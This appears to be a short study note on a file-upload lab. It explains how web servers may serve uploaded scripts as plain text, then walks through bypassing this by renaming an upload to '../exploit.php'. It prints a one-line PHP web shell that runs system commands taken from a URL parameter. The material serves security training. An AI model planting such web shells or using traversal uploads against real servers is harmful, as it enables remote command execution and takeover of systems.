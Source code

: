 # Preventing file execution in user-accessible directories

While it's clearly better to prevent dangerous file types being uploaded in the first place, the second line of defense is to stop the server from executing any scripts that do slip through the net.

As a precaution, servers generally only run scripts whose MIME type they have been explicitly configured to execute. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead:

```
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com


HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```

This kind of configuration often differs between directories. A directory to which user-supplied files are uploaded will likely have much stricter controls than other locations on the filesystem that are assumed to be out of reach for end users. If you can find a way to upload a script to a different directory that's not supposed to contain user-supplied files, the server may execute your script after all.

Web servers often use the `filename` field in `multipart/form-data` requests to determine the name and location where the file should be saved.


# Lab traversal

1) Tried to upload web shell
2) In burp suite we captured request like: `Content-Disposition: form-data; name="avatar"; filename="exploit.php"`<br> In it's name I tried to change `../exploit.php` meaning file uploading to another folder to launch
3) And.. we can confirm by browsing location

Good explanation on you tube:
https://youtu.be/7mISCBhwcXM
